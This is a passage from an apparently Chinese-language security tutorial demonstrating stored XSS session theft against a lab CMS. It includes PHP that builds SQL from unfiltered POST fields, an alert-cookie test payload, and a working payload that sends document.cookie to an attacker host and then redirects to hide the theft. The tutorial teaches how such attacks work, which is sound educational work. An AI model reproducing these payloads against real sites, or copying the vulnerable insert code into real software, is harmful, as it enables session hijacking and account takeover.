 ````php
	        goto end;
	    }
	
	    if ($db->getStatus()) {
	        $title = $_POST['title'];
	        $content = $_POST['content'];
	        $sql = 'insert into article(title,content,uid,create_time) values("'.$title.'","'.$content.'",'.$uid.',now())';
	        $rv = $db->dbExecute($sql);
	        if ($rv > 0) {
	            $result['code'] = 0;
	        } else {
	            $result['code'] = 3;
	            $result['msg'] = '插入失败';
	        }
	    } else {
	        $result['code'] = 1;
	        $result['msg'] = '数据库操作失败';
	    }
	}
	end:
	echo (json_encode($result));
````

**代码2.1 添加文章的后台代码**
这里给出了一段不靠谱代码，之所以这么说是由于对于提交的内容没有做过滤，比如说`content`表单域的内容。现在假设有这么两个网站，一个你自己的CMS网站，域名`mycms.whyun.com`,一个黑客用的网站，域名`session.myhack.com`。你可以通过配置hosts来模拟这两个网站，说到这里可还是推荐一下我之前做过的[addhost](http://git.oschina.net/yunnysunny/addhost "addhost")工具，可以自动生成hosts和vhost配置。代码2.1正是mycms网站的代码。  
登录mycms后在后台添加一篇文章，文章内容为：

    <a href=\"#\" onclick=\'javascript:alert(document.cookie);return false;\'>点击我，有惊喜！</a>
**代码2.2 alert cookie**
![显示cookie的html](http://git.oschina.net/yunnysunny/hack/raw/master/session/img/show_cookie.jpg)
**图2.1 显示cookie的html**

打开刚才生成的文章链接，然后点击`点击我，有惊喜！`,会显示当前域下的所有cookie。
![coookie被alert出来](http://git.oschina.net/yunnysunny/hack/raw/master/session/img/alert_cookie.jpg)
**图2.2 cookie被alert出来**

当然要想做到攻击的目的仅仅做这些是不够的，下面将这个链接的内容做的丰富多彩些。

    <a href=\"#\" onclick=\'javascript:var link = this; var head = document.getElementsByTagName(\"head\")[0]; var js = document.createElement(\"script\"); js.src = \"http://session.myhack.com/httphack.php?cook=\"+encodeURIComponent(document.cookie); js.onload = js.onreadystatechange = function(){ if (!this.readyState || this.readyState == \"loaded\" || this.readyState == \"complete\") {head.removeChild(js);  alert(\"over\"); } }; head.appendChild(js);return false;\'>点击我，有惊喜2！</a>
**代码2.3 跨站请求**    
这里为了将代码嵌入html，得将其写作一行，其简洁模式为：

````javascript
    var link = this;
	var head = document.getElementsByTagName("head")[0]; 
	var js = document.createElement("script"); 
	js.src = "http://session.myhack.com/httphack.php?cook="+encodeURIComponent(document.cookie); 
	js.onload = js.onreadystatechange = function(){ 
		if (!this.readyState || this.readyState == "loaded" || this.readyState == "complete") { 
			head.removeChild(js); 
			alert('开始跳转真正的地址');location.href=link.getAttribute("href");//
		}
	}; 
	head.appendChild(js); 
````
**代码2.4 跨站请求简洁版**
为了真正的体现他是超链接还是跳转到一个地址为妙，所以在简洁班中脚本加载结束后做了跳转，但是为了演示方便，我们在代码2.3中没有这么做。    